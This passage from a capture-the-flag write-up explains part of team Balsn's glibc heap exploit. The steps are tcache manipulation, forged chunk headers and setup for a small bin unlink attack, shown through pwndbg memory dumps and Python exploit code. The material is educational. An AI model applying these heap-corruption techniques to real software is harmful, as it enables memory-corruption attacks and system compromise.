 The `tcache_perthread_struct` can be seen with the pointers to the 0x20 and 0x30 sized chunks as follows:
```c
pwndbg> x/20gx 0x562a666cd000
0x562a666cd000: 0x0000000000000000      0x0000000000000251
0x562a666cd010: 0x0200000000000101      0x0000000000000000
0x562a666cd020: 0x0000000000000000      0x0000000000000000
0x562a666cd030: 0x0000000000000000      0x0000000000000000
0x562a666cd040: 0x0000000000000000      0x0000000000000000
0x562a666cd050: 0x0000562a666cda40      0x0000562a666cd9b0 <- our 0x20 and 0x30 chunks
0x562a666cd060: 0x0000000000000000      0x0000000000000000    in tcache_perthread_struct
```

Next, what **Balsn** does is fill up the 0x210 tcache bin in order to be able to send a 0x210 sized chunk into a small bin (to be used for the small bin unlink attack).

While they do this, they also insert a fake chunk of size 0xd1. This fake chunk is exactly 0x6c1 bytes after that 0x6c1 fake chunk we inserted into index 5. This bypasses the check in `_int_free` when we free the 0x6c1 sized chunk, which makes sure that the next chunk's `PREV_INUSE` bit is set.

Also while they do that, they prepare the 0x210 chunk that is going to be used in the small bin unlink attack such that it lies right on top of the pointer to that 0x21 sized fake chunk we freed earlier. 
```python
# We create a chunk to go right up to the 0x20 sized chunk's fd and bk
# We must also maintain the 0x6c1 sized fake chunk here as we still have a pointer to it
# We will free the fake 0x6c1 chunk into the unsorted bin later
# It will be used to overwrite the metadata of the fake chunks from above
buy(0, 0x1a0, p64(0)*15+p64(0x6c1))

# This chunk will be right on top of where the fake 0x20 sized chunk was before
# It will be sent into the small bin
# We will use it to perform a small bin unlink attack later
buy(1, 0x210, 'A'*0x210)

# Just a filler chunk for the next chunk
buy(2, 0x210, 'B'*0x210)
sell(2) # Send to tcache

# We need the fake 0xd1 chunk header here to be able to free the 0x6c1 chunk
# This offset can be found using gdb
buy(2, 0x210, '\x00'*0x148+p64(0xd1))
sell(2) # Send to tcache

# Fill the 0x210 tcache bin the rest of the way
for i in range(5):
  buy(2, 0x210, 'a')
  sell(2)
```

Following this, they allocate and free a 0x3a0 sized chunk. This increments the count field of the 0x3a0 tcache bin by one. This is done in order to make it look like there is a 0x100 sized chunk at `heapbase+0x40` which is important since they will later use the small bin unlink attack to get a chunk right on top of this address. One of the checks will make sure this chunk has a "legal size", thus this must look like a fake chunk:
```python
# We create a fake 0x100 chunk header in the tcache_perthread_struct
# by freeing this chunk
buy(2, 0x3a0, 'A'*0x3a0)
sell(2) # Send to tcache
```
```c
pwndbg> x/20gx 0x55f2db383000
0x55f2db383000: 0x0000000000000000      0x0000000000000251
0x55f2db383010: 0x0200000000000101      0x0000000000000000
0x55f2db383020: 0x0000000000000000      0x0000000000000000
0x55f2db383030: 0x0000000000000007      0x0000000000000000
```